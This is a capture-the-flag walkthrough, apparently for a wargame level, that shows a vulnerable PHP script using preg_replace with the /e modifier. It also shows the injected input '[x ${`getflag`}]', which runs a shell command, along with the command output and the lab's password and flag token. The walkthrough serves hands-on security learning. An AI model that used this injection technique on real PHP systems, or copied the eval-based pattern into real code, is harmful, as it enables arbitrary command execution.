 ## Step 1: Login
`su level06`

**password:** viuaaale9huek52boumoomioc

## Step 2: Find flag

`cat level06.php`

```
#!/usr/bin/php
<?php
function y($m) { $m = preg_replace("/\./", " x ", $m); $m = preg_replace("/@/", " y", $m); return $m; }
function x($y, $z) { $a = file_get_contents($y); $a = preg_replace("/(\[x (.*)\])/e", "y(\"\\2\")", $a); $a = preg_replace("/\[/", "(", $a); $a = preg_replace("/\]/", ")", $a); return $a; }
$r = x($argv[1], $argv[2]); print $r;
?>
```

`echo '[x ${`getflag`}]' > /tmp/flag.php`

`./level06 /tmp/flag.php`
> PHP Notice:  Undefined variable: Check flag.Here is your token : wiok45aaoguiboiki2tuin6ub
